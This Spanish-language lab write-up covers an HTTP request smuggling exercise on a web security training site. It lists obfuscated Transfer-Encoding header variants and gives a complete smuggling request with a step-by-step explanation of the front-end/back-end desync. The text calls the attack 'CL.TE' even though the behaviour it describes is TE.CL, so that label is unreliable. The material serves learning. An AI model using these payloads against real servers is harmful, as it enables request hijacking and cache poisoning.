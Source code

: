 ```yaml
---
layout: default
title: 03 - HTTP request smuggling, obfuscating the TE header
---
```


Variaciones de un tranfer encoding ofuscado:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```



```http
POST / HTTP/1.1
Host: 0a4100750381509189c3e5df0072005d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-encoding: cow
Content-Length: 4

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0
```

---

## 🎯 ¿Qué tipo de ataque es este?

Este es un **CL.TE (Content-Length, Transfer-Encoding)**, **pero invertido**: como el back-end **no soporta chunked encoding** y se fía del `Content-Length`, se genera una **desincronización entre front-end y back-end**.

---

## 🔍 Paso a paso

### 🔹 1. Lo que ve el **front-end**:

- Ve: `Transfer-Encoding: chunked` (correcto, válido).
    
- Interpreta que el cuerpo está codificado en chunks.
    

Y empieza a leer chunks:

- Primer chunk:
    
    ```
    5c\r\n
    GPOST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 11\r\n
    \r\n
    x=1\r\n
    ```
    
    `5c` = 92 bytes → sí, eso es un chunk válido.
    
- Luego:
    
    ```
    0\r\n\r\n
    ```
    
    ➤ Fin del cuerpo.
    

✅ Para el **front-end**: todo perfecto, reenvía esto al **back-end** como una única petición válida.

---

### 🔸 2. Lo que ve el **back-end**:

Ahora empieza el caos 😈

- El back-end **no soporta chunked**, ignora `Transfer-Encoding`, **y ve `Transfer-encoding: cow`**, que no significa nada.
    
- Entonces ignora ambos `Transfer-Encoding` y se basa en:  
    → `Content-Length: 4`
    

📌 ¿Y qué hace con eso?

- Lee **solo 4 bytes del cuerpo**:
    
    ```
    5c\r\n
    ```
    
    (Esos 4 bytes corresponden al _valor del primer chunk_, pero él no sabe que son chunks).
    
- Después de esos 4 bytes, considera que la petición **terminó**.
    

---

### 🔥 3. ¿Qué pasa con el resto?

Lo que sigue:

```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0
```

Queda como "sobrante", es decir, el back-end lo ve como el inicio de una **nueva petición**, la siguiente en la misma conexión HTTP persistente.

📛 Y como la siguiente comienza con:

```http
GPOST / HTTP/1.1
```

➡️ Eso no es un método válido.

---

## 💥 Resultado final

|Momento|Qué ve el servidor|Resultado|
|---|---|---|
|Primer request|Interpreta `Content-Length: 4` → solo lee `5c\r\n`|✅ `200 OK`|
|Segundo request|Empieza con `GPOST /...` → método inválido|❌ `400 Bad Request` o `Invalid method: GPOST`|

---
